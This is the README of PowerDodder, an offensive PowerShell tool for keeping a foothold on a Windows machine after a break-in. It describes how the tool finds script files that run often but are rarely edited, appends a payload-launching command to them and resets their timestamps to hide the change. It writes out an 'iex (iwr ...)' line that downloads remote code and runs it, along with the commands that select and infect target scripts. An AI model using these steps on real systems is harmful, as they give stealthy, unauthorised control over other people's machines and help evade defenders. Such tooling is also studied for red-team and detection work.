 # PowerDodder

**PowerDodder** is a post-exploitation persistence utility designed to stealthily embed execution commands into existing script files on the host. By leveraging files that are frequently accessed but rarely modified, it targets high-likelihood execution vectors with minimal detection risk.

## 🧠 Background

Traditional persistence methods (e.g., Registry `Run` keys, scheduled tasks) are often monitored or flagged by EDRs and blue teams. PowerDodder takes a novel approach:

- It hunts for existing script files on disk (`.ps1`, `.bat`,`.cmd`, `.vbs`, `.js`).
- It prioritizes those that:
  - **Have been accessed recently** (indicating they're being executed often).
  - **Haven’t been modified recently** (suggesting they're not actively edited).
- It lets you choose the target script(s), and then it appends a payload-spawning command using a context-appropriate syntax (PowerShell, VBScript, JScript, etc.).

This allows for low-noise persistence, hitching a ride on legitimate execution paths.

## 🛠️ Usage

### 1. Load the script

```
iex (iwr https://raw.githubusercontent.com/itaymigdal/PowerDodder/refs/heads/main/PowerDodder.ps1) 
```

### 2. Run a Hunt

Scans predefined folders (`C:\Users\`, `C:\Program Files\`, `C:\Program Files (x86)\`, `C:\ProgramData\`) for promising script files.
```
DodderHunt
```
You can also target a specific folder:
```
DodderHunt -FolderPath "C:\CustomPath"
```
**Optional params:**

-LastAccessTimeThreshold: default is 7 days.

-LastModifyTimeThreshold: default is 3 months.

You can set different thresholds like that:
```
$DifferentModifyThreshold = (get-date).AddMonths(-4)
$DifferentAccessThreshold = (get-date).AddDays(-20)
DodderHunt -LastAccessTimeThreshold $DifferentAccessThreshold -LastModifyTimeThreshold $DifferentModifyThreshold
```

### 3. Infect a script
```
DodderInfect -ID <CandidateID> -PersistCommand <ExecutionCommand>
```
This will:
- Create the appended line of your command based on the relevant template.
- Modify the file by appending the persistence command.
- Restore the original script LastWriteTime attribute to hide the modification.
- Move the infected script to the Infected list.

### 4. Helpers

- `DodderShow`: Lists found candidates and already-infected files.
- `DodderClearCandidates`: Empties the current candidates list (useful before rescanning).


## 📚 Name Origin
The name Dodder comes from a parasitic vine that attaches itself to host plants, slowly feeding off them without killing them — much like this tool latches onto host scripts for persistent execution.

